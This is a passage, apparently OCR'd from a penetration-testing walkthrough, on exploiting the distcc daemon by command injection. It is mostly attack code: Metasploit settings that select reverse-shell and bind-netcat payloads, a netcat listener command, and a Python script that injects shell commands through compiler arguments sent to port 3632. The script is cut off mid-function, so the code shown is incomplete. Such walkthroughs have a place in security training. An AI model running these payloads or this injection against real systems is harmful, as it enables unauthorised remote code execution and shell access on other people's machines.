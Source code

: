 #### Advanced Metasploit Configuration
```bash
# Different payload options
set PAYLOAD cmd/unix/bind_netcat
set PAYLOAD cmd/unix/reverse_bash
set PAYLOAD cmd/unix/reverse_python

# Custom command execution
set PAYLOAD cmd/unix/generic
set CMD "id; whoami; uname -a"

# Run with verbose output
set VERBOSE true
exploit
```

### Method 2: Manual Exploitation

#### Direct Command Injection
```bash
# Basic command injection via compilation flags
# The vulnerability lies in the argument parsing

# Set up listener
nc -lvnp 4444

# Send malicious compilation request
cat > exploit.py << 'EOF'
#!/usr/bin/env python3
import socket
import sys

def exploit_distcc(target_ip, command):
    try:
        # Connect to distccd
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((target_ip, 3632))
        
        # Send distcc protocol header
        sock.send(b"DIST 1\n")
        
        # Receive response
        response = sock.recv(1024)
        print(f"Server response: {response.decode().strip()}")
        
        # Send malicious compilation request
        # Inject command through compiler arguments
        malicious_arg = f";{command};"
        
        # Build distcc request
        request = f"ARGC 7\nARGV0 gcc\nARGV1 -c\nARGV2 -o\nARGV3 /tmp/test.o\nARGV4 {malicious_arg}\nARGV5 /tmp/test.c\nARGV6 -\n"
        
        sock.send(request.encode())
        
        # Send dummy source code
        sock.send(b"DOTI\nint main(){return 0;}\nDONE\n")
        
        # Receive response
        response = sock.recv(1024)
        print(f"Compilation response: {response.decode()}")
        
        sock.close()
        
```